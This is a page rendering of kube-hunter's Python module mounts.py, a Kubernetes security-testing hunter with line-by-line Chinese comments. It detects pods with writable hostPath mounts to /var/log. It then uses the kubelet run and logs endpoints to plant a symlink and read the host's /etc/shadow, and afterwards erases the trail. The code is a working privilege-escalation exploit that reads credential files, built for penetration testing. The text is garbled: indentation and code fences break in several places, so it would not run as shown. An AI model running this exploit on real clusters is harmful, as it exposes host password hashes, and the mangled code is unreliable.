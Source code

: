 # `kubehunter\kube_hunter\modules\hunting\mounts.py`

```
# 导入 logging 模块，用于记录日志
import logging
# 导入 re 模块，用于正则表达式操作
import re
# 导入 uuid 模块，用于生成唯一标识符
import uuid

# 从 kube_hunter.conf 模块中导入 config 对象
from kube_hunter.conf import config
# 从 kube_hunter.core.events 模块中导入 handler 函数
from kube_hunter.core.events import handler
# 从 kube_hunter.core.events.types 模块中导入 Event 和 Vulnerability 类
from kube_hunter.core.events.types import Event, Vulnerability
# 从 kube_hunter.core.types 模块中导入 ActiveHunter, Hunter, KubernetesCluster, PrivilegeEscalation 类
from kube_hunter.core.types import ActiveHunter, Hunter, KubernetesCluster, PrivilegeEscalation
# 从 kube_hunter.modules.hunting.kubelet 模块中导入 ExposedPodsHandler, ExposedRunHandler, KubeletHandlers 类
from kube_hunter.modules.hunting.kubelet import ExposedPodsHandler, ExposedRunHandler, KubeletHandlers

# 获取当前模块的日志记录器对象
logger = logging.getLogger(__name__)
# 创建一个类，用于表示在/var/log目录中创建符号链接的漏洞
class WriteMountToVarLog(Vulnerability, Event):
    """A pod can create symlinks in the /var/log directory on the host, which can lead to a root directory traversal"""

    def __init__(self, pods):
        # 初始化漏洞对象，设置漏洞所属的Kubernetes集群，漏洞名称，漏洞类别和漏洞ID
        Vulnerability.__init__(
            self, KubernetesCluster, "Pod With Mount To /var/log", category=PrivilegeEscalation, vid="KHV047",
        )
        # 设置pods属性
        self.pods = pods
        # 设置evidence属性，用于记录相关证据
        self.evidence = "pods: {}".format(", ".join((pod["metadata"]["name"] for pod in self.pods)))


# 创建一个类，用于表示使用Kubelet进行目录遍历的漏洞
class DirectoryTraversalWithKubelet(Vulnerability, Event):
    """An attacker can run commands on pods with mount to /var/log,
    and traverse read all files on the host filesystem"""

    def __init__(self, output):
        # 初始化漏洞对象，设置漏洞所属的Kubernetes集群，漏洞名称，漏洞类别
        Vulnerability.__init__(
            self, KubernetesCluster, "Root Traversal Read On The Kubelet", category=PrivilegeEscalation,
```

        )
        # 设置输出属性
        self.output = output
        # 设置证据属性，记录输出信息
        self.evidence = "output: {}".format(self.output)

# 订阅ExposedPodsHandler事件，定义VarLogMountHunter类
@handler.subscribe(ExposedPodsHandler)
class VarLogMountHunter(Hunter):
    """Mount Hunter - /var/log
    Hunt pods that have write access to host's /var/log. in such case,
    the pod can traverse read files on the host machine
    """

    # 初始化方法，接收事件参数
    def __init__(self, event):
        self.event = event

    # 检查pod是否有对指定路径的写入挂载
    def has_write_mount_to(self, pod_data, path):
        """Returns volume for correlated writable mount"""
        # 遍历pod的卷
        for volume in pod_data["spec"]["volumes"]:
            # 如果是hostPath类型的卷
            if "hostPath" in volume:
                # 如果hostPath类型是Directory
                if "Directory" in volume["hostPath"]["type"]:
# 如果volume的hostPath的路径以指定的path开头，则返回该volume
if volume["hostPath"]["path"].startswith(path):
    return volume

# 执行方法
def execute(self):
    # 初始化pe_pods列表
    pe_pods = []
    # 遍历事件中的pods
    for pod in self.event.pods:
        # 如果pod有写入挂载到指定路径（/var/log）的情况
        if self.has_write_mount_to(pod, path="/var/log"):
            # 将符合条件的pod添加到pe_pods列表中
            pe_pods.append(pod)
    # 如果pe_pods列表不为空
    if pe_pods:
        # 发布WriteMountToVarLog事件，包含符合条件的pods
        self.publish_event(WriteMountToVarLog(pods=pe_pods))

# 订阅ExposedRunHandler事件，并定义ProveVarLogMount类
@handler.subscribe(ExposedRunHandler)
class ProveVarLogMount(ActiveHunter):
    """Prove /var/log Mount Hunter
    Tries to read /etc/shadow on the host by running commands inside a pod with host mount to /var/log
    """

    # 初始化方法，接收事件参数
    def __init__(self, event):
        self.event = event
# 设置基础路径为事件主机和端口的组合
self.base_path = f"https://{self.event.host}:{self.event.port}"

# 运行命令在容器中，返回运行结果
def run(self, command, container):
    # 构建运行命令的URL
    run_url = KubeletHandlers.RUN.value.format(
        podNamespace=container["namespace"], podID=container["pod"], containerName=container["name"], cmd=command,
    )
    # 发送POST请求并返回结果
    return self.event.session.post(f"{self.base_path}/{run_url}", verify=False).text

# 获取/var/log挂载的容器
def get_varlog_mounters(self):
    # 访问ProveVarLogMount上的/pods
    logger.debug("accessing /pods manually on ProveVarLogMount")
    # 发送GET请求获取所有pods的信息
    pods = self.event.session.get(
        f"{self.base_path}/" + KubeletHandlers.PODS.value, verify=False, timeout=config.network_timeout,
    ).json()["items"]
    # 遍历所有pods
    for pod in pods:
        # 检查是否有挂载到/var/log的卷
        volume = VarLogMountHunter(ExposedPodsHandler(pods=pods)).has_write_mount_to(pod, "/var/log")
        if volume:
            # 返回挂载到/var/log的pod和卷
            yield pod, volume

# 从挂载名称获取挂载路径
def mount_path_from_mountname(self, pod, mount_name):
        """returns container name, and container mount path correlated to mount_name"""
        # 遍历 pod 中的容器
        for container in pod["spec"]["containers"]:
            # 遍历容器中的卷挂载
            for volume_mount in container["volumeMounts"]:
                # 如果卷挂载的名称与指定的名称相符，则返回容器和挂载路径
                if volume_mount["name"] == mount_name:
                    logger.debug(f"yielding {container}")
                    yield container, volume_mount["mountPath"]

    def traverse_read(self, host_file, container, mount_path, host_path):
        """Returns content of file on the host, and cleans trails"""
        # 创建一个唯一的符号链接名
        symlink_name = str(uuid.uuid4())
        # 创建指向文件的符号链接
        self.run(f"ln -s {host_file} {mount_path}/{symlink_name}", container)
        # 使用 kubelet 跟随符号链接
        path_in_logs_endpoint = KubeletHandlers.LOGS.value.format(
            path=re.sub(r"^/var/log", "", host_path) + symlink_name
        )
        # 从主机上获取文件内容，并清除尾随字符
        content = self.event.session.get(
            f"{self.base_path}/{path_in_logs_endpoint}", verify=False, timeout=config.network_timeout,
        ).text
        # 删除符号链接
# 删除指定路径下的符号链接文件
self.run(f"rm {mount_path}/{symlink_name}", container=container)
# 返回内容
return content

# 执行函数
def execute(self):
    # 获取/var/log挂载点的pod和volume
    for pod, volume in self.get_varlog_mounters():
        # 遍历挂载点的pod和volume，获取相关的container和挂载路径
        for container, mount_path in self.mount_path_from_mountname(pod, volume["name"]):
            # 记录相关的container和挂载点名称
            logger.debug("Correlated container to mount_name")
            # 构建包含container名称、pod名称和命名空间的字典
            cont = {
                "name": container["name"],
                "pod": pod["metadata"]["name"],
                "namespace": pod["metadata"]["namespace"],
            }
            try:
                # 尝试利用遍历读取函数获取/etc/shadow文件内容
                output = self.traverse_read(
                    "/etc/shadow", container=cont, mount_path=mount_path, host_path=volume["hostPath"]["path"],
                )
                # 发布事件，指示存在Kubelet的目录遍历漏洞
                self.publish_event(DirectoryTraversalWithKubelet(output=output))
            except Exception:
                # 记录无法利用/var/log的异常情况
                logger.debug("Could not exploit /var/log", exc_info=True)
```